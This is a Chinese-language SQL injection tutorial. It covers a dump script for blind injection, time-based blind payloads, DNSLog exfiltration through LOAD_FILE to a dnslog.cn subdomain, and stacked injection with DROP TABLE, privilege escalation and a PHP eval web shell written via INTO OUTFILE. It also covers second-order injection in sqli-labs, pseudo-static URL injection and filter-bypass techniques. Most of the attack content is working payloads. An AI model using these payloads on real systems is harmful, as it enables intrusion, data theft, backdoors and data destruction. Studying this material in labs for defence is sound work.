print("\n[3] 爆表名...")
table_expr = (
    "(select table_name from information_schema.tables "
    "where table_schema=database() limit {i},1)"
)
tables = dump_list(table_expr, table_count, "表名")

# 4. 对每张表爆列名，再对每列爆数据
for table in tables:
    print(f"\n[4] 处理表: {table}")

    col_count_expr = (
        f"select count(*) from information_schema.columns "
        f"where table_schema=database() and table_name='{table}'"
    )
    col_count = get_count(col_count_expr)
    print(f"[+] 表 {table} 列数量: {col_count}")

    col_expr = (
        f"(select column_name from information_schema.columns "
        f"where table_schema=database() and table_name='{table}' limit {{i}},1)"
    )
    columns = dump_list(col_expr, col_count, f"{table} 列名")

    for col in columns:
        print(f"\n[5] 表 {table} 列 {col} 开始爆数据...")

        row_count_expr = f"select count(*) from `{table}`"
        row_count = get_count(row_count_expr)
        print(f"[+] 行数: {row_count}")

        data_expr = f"(select `{col}` from `{table}` limit {{i}},1)"
        limit = min(row_count, MAX_ROW_PER_COL)
        dump_list(data_expr, limit, f"{table}.{col} 数据")

print("\n[*] 全部完成")
```

### 时间盲注

也是无回显注入的一种，数据库被要求“如果条件成立，就睡 N 秒再返回”，我们靠“卡不卡”来判断条件真假

响应 ≥ N 秒 → 条件为真

响应正常 → 条件为假

mysql中主要用到两个函数

`SLEEP(N)`：让数据库睡 N 秒  //被禁用时可尝试用benchmark()

```
SELECT SLEEP(5);   -- 5 秒后返回 0
```

`IF(条件, 真值, 假值)`：条件分支

```
SELECT IF(1=1, SLEEP(5), 0);   -- 条件真，睡 5 秒
SELECT IF(1=2, SLEEP(5), 0);   -- 条件假，立即返回
```

payload构造

```
?id=1 AND IF(ascii(substr(database(),1,1))=99, SLEEP(5), 0)
```

拼出

```
SELECT * FROM users WHERE id = 1 AND IF(ascii(substr(database(),1,1))=99, SLEEP(5), 0) 
```

当然，手搓肯定很难出来，理解原理后，可以用ai写脚本跑


### DNSlog方式

**DNSLog 平台会提供一个你专属的子域名（例如 `abc123.dnslog.cn`）。任何对该域名及其子域名的 DNS 查询，都会被平台记录下来** 

构造 Payload 时，把要查的数据拼在**你自己域名的前面**：

sql

```
-- 概念形态
触发函数( 要带出的数据 || '.' || 'abc123.dnslog.cn' )
```

数据库执行时，会去解析 `要带出的数据.abc123.dnslog.cn` 这个域名。你在 DNSLog 平台查看解析日志，看到子域名部分是什么，数据就是什么

一般用load_file() + UNC 路径（**仅 Windows，网站必须搭载在Windows,secure_file_priv必须为空，且有读文件权限才能用（感觉使用条件比较苛刻）**）

payload

```
' AND (SELECT LOAD_FILE(CONCAT('\\\\', (SELECT database()), '.abc123.dnslog.cn\\x')))-- 
```

```
\\\\` 在 SQL 字符串中会变成 `\\`，构成 UNC 前缀。拼出的路径是 `\\库名.abc123.dnslog.cn\x
```

（\x是文件的路径，因为load_file是读文件用的，需要随便塞个滚木路径才能执行）

查看日志，子域名部分就是库名，后面的其他查询步骤不再赘述


### 堆叠注入

堆叠以为多个sql语句叠加，这种注入方式通常用`;`分隔，在查询语句后执行命令

SQL 标准中，分号 `;` 用来分隔多条语句。大多数数据库客户端和驱动都支持一次发送多条以分号分隔的语句

首先可以通过时间盲注来推测是否存在堆叠注入

```
?id=1; WAITFOR DELAY '0:0:5'-- 
```

如果延迟5秒则存在

如果正常查询的语句是这样的

```
SELECT * FROM users WHERE id = 1;
```

堆叠注入后

```
SELECT * FROM users WHERE id = 1; DROP TABLE users; --   //数据库会先执行 SELECT，再执行 DROP
```

**堆叠注入不要求第一条语句有回显**。即使 `SELECT` 的结果页面不显示，后面的 `INSERT`、`UPDATE`、`DELETE`、`CREATE` `DROP`等语句仍然会被执行，可以写入数据或进行篡改

我们可以用它提权、修改数据

```
?id=1; UPDATE users SET role='admin' WHERE username='attacker'-- 
```

创建表或者写入文件(写文件需要有file权限)

```
?id=1; CREATE TABLE exfil (data TEXT)-- 
?id=1; SELECT '<?php eval($_POST[cmd]);?>' INTO OUTFILE '/var/www/html/shell.php'-- 
```


但是也有一定的局限性，并不是所有的环境都能用，可能受到api或是数据库引擎不支持的影响，亦或者没有权限无法执行操作。

**MySQL部分支持堆叠， SQL Server都支持， Oracle不支持**

 

### 二次注入

二次注入一般很难在黑盒情况下发现，基本都是看源码发现的漏洞

**二次注入可以概括为两步：**

1.写入恶意数据

数据写入库前可能对特殊字符进行了转义，但保存在数据库中又保留了原来数据

2.引用恶意数据

党默认数据库内数据是安全的时候，引用库内数据不做检查就会触发恶意代码



用sqli-labs 第24关的代码学习一下

其中有个login_create.php文件

```
$username = mysql_escape_string($_POST['username']);
$pass     = mysql_escape_string($_POST['password']);

$sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";
mysql_query($sql) or die(...);
```

如果直接提交 `admin' OR 1=1--`，`mysql_escape_string` 会把单引号转义成 `\'`，拼出的 SQL 是：

```
INSERT INTO users (username, password) VALUES ("admin\' OR 1=1-- ", "...")
```

语法合法，**注入不成立**。但是数据库里存储的 username 是 `admin' OR 1=1--` 这个原始字符串（反斜杠只是 SQL 解析阶段的转义符，不会存进数据）

login.php文件中 登录是转义后查询

```
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```

攻击链应该是

注册时提交恶意用户名，被转义后进入数据库

```
username = admin'#
password = 123
```

用恶意用户名登录,admin'#被转义后查询，正好匹配数据库中存着的原始恶意用户名admin'#

```
login_user     = admin'#
login_password = 123
```

注入生效，如果后台有管理员账号是admin，就直接登上管理员账号了


### 伪静态注入

网站页面伪装的像静态、无后端数据交互

简单的例子

```
原始动态 URL：  http://target.com/news.php?id=123
```

Web 服务器的重写之后

```
用户看到的 URL：http://target.com/news/123.html
```

后端执行的仍然是 `news.php`，`id` 的值 `123` 依然被提取出来，最终进入类似 `SELECT * FROM news WHERE id = 123` 的查询

我们只需要在数字后进行注入就行了   （空格可以用 `%20`、`+` 等表示,被url解析误解或某些规则限制时可以用内联注释代替空格）

```
判断字符型（加单引号，观察是否报错或页面异常）：
/news/123'.html

逻辑对比：
/news/123/**/AND/**/1=1.html   （预期正常）
/news/123/**/AND/**/1=2.html   （预期异常或无结果）
```
## 常见的绕过手段


| 被过滤/拦截的目标 | 主要绕过方向 |
|---|---|
| 关键字（`SELECT`/`UNION`/`AND` 等） | 大小写、双写、内联注释、同义词 |
| 空格 | 注释替代、制表符/换行、括号嵌套 |
| 引号 | 十六进制、`CHAR()`、宽字节 |
| 等号/比较符 | `LIKE`、`BETWEEN`、`IN`、`REGEXP` |
| 注释符 | 换用 `#`、`-- `、`/* */`、`;%00` |
| 特定函数 | 等价函数替换 |
| 应用层过滤 | 编码、协议层变换、换入口 |

